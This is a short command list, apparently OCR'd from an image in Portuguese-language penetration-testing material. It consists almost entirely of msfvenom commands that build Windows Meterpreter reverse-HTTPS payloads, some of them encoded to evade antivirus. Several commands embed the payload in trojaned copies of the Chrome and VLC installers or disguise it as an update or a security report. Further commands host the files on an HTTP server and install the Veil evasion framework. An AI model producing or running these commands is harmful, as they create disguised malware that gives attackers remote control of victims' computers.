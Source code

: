 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe


wget https://get.videolan.org/vlc/3.0.20/win64/vlc-3.0.20-win64.exe -O vlc_setup.exe

set PAYLOAD windows/x64/meterpreter/reverse_https

mkdir /var/www/html/payloads
cp /root/FatRat_Generated/relatorio_seguranca.exe /var/www/html/payloads/

find / -name "relatorio_seguranca.exe" 2>/dev/null


git clone https://github.com/Veil-Framework/Veil.git

cd Veil

./config/setup.sh --force


